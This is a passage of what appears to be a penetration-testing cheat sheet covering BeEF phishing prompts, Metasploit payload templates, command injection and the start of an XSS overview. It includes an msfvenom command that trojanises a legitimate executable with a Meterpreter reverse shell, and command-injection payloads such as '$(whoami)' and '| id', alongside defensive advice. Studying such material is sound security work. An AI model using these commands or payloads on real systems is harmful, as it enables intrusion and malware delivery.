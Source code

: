```bash
sudo beef
```

* Includes fake update prompts, phishing dialogs

### Payload Templates

* Combine legitimate executables with Meterpreter payloads:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -k -x legitimate.exe -f exe -o trojan.exe
```

---

## Command Injection

### Concept

* Unsanitized user input reaches the shell
* Allows chaining or substitution of commands

### Payload Examples

```bash
cat /?;
echo injected;
$(whoami);
| id;
|| ls;
```

### Detection & Defense

* Audit source code for dangerous functions: `exec`, `system`, `shell_exec`
* Validate and sanitize all user input
* Apply WAF for temporary mitigation
* Monitor outbound activity from web servers

---

## Cross-Site Scripting (XSS)

### Overview

* XSS exploits client-side trust in the web app
* Delivered via URL parameters, stored input, or reflected content

### Types

* **Stored XSS**: Persisted on server (e.g., comment section)
* **Reflected XSS**: Injected via URL (e.g., search queries)

